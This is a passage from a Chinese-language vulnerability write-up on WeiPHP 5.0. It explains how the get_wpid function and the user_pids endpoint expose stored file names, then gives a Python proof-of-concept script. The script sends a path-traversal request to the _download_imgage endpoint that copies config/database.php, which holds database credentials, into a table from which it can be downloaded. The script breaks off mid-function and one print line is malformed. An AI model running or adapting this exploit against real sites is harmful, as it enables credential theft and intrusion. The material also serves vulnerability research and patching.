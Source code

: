 跟进 **get_wpid** 函数

```php
function get_wpid($wpid = '')
{
    if (defined('WPID')) {
        return WPID;
    } else {
        return 0;
    }
}
```

查看 WPID 的定义，文件位置在**config\weiphp_define.php**

![](http://wikioss.peiqi.tech/vuln/weiphp-12.png)

定义值默认为 1，所以这里调用则可以获得数据库中Pictrue表的内容，间接的知道了文件内容以及文件名

访问地址: **http://webphp/public/index.php/home/file/user_pids**

![](http://wikioss.peiqi.tech/vuln/weiphp-13.png)

可以看到文件名，根据url地址访问选择下载即可

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import random
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
    print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    data = {
        "1":1
    }
    try:
        response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
        if response.status_code == 200:
            print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
        else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
```